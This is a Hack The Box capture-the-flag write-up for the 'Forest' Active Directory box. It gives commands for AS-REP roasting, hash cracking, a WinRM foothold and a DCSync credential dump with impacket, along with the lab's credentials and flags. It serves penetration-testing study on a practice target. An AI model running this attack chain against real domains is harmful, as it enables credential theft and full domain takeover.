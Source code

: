 # HTB: Forest
## Engagement Overview
**Target:** Forest  
**Box IP:** 10.10.10.161  
**Local IP:** 10.10.14.2  
**Date:** 2025-07-15

---

## Objectives
Forest is an “easy” Windows Domain Controller box featuring an Active Directory environment with Exchange installed. The target allows anonymous LDAP binds for domain enumeration. By exploiting Kerberos pre-authentication misconfiguration, a TGT can be obtained and cracked offline. The compromised service account has privileges to modify Exchange group memberships, which can be escalated into full domain compromise using DCSync.

---

## Service Enumeration
```bash
nmap -p- -sC -sV -oA forest-scan 10.10.10.161
```

**Open Ports:**
- 53/tcp   – DNS
- 88/tcp   – Kerberos
- 135/tcp  – MS RPC
- 139/tcp  – NetBIOS
- 389/tcp  – LDAP
- 445/tcp  – SMB
- 464/tcp  – kpasswd
- 593/tcp  – RPC over HTTP
- 636/tcp  – LDAPS
- 3268/tcp – Global Catalog LDAP
- 3269/tcp – Global Catalog LDAPS

**Domain Info:**
- Domain: `htb.local`
- Hostname: `FOREST`
- OS: Windows Server 2016 Standard
- Forest: `htb.local`
- FQDN: `FOREST.htb.local`

**SMB Notes:**
- Message signing enabled and required
- Authentication level: user

---

## Initial Access

### Kerberos Pre-Auth Disabled

**Tool:**  
```bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
```

**Output:**  
AS-REP roastable hash for user `svc-alfresco`.

### Hash Cracking

**Tool:**  
```bash
hashcat -m 18200 -a 0 hash.txt wordlist.txt
```

**Credentials Recovered:**
- **Username:** `svc-alfresco`
- **Password:** `s3rvice`

### Shell Access

**Command:**
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

**Result:**  
Authenticated as `svc-alfresco`. Initial foothold established.

---

## Privilege Escalation

### Active Directory Abuse

- `svc-alfresco` is a member of **Account Operators** group.
- Abuse of Exchange permissions (via `WriteDACL`) allows membership modification to privileged Exchange groups.
- Escalated to **Exchange Windows Permissions**, granting `Replicating Directory Changes All`.

### DCSync Attack

**Tool:** `impacket-secretsdump`

**Command:**
```bash
secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
```

**Result:**  
Successfully dumped NTLM hashes, including `Administrator`.

---

## House Cleaning

- No changes persisted on target.
- All tooling executed in-memory where possible.
- Removed any user-created artifacts.

---

## Post-Exploitation

**Flags Captured:**
- `user.txt`: `58fc66dc0f2af05eb1a1751186720d85`
- `root.txt`: `c0a4c2b3bd3faf59b20d049d108d7613`

**Domain Admin Achieved:** ✅

---

## Tools Utilized

- `nmap`
- `impacket-GetNPUsers`
- `evil-winrm`
- `hashcat`
- `ldapsearch`
- `secretsdump`
- [ropnop/windapsearch](https://github.com/ropnop/windapsearch)
- HTB Official Writeup
- [0xdf Forest Writeup](https://0xdf.gitlab.io/2020/03/21/htb-forest.html)

---

## Key Takeaways

- Kerberos AS-REP Roasting is a critical misconfig to identify during recon.
- LDAP enumeration and group mapping are essential on AD boxes.
- Abusing Exchange and DCSync attacks is a powerful privilege escalation path.
- Windows privesc often requires lateral movement through service accounts and trust delegation, not just binary exploitation.

---
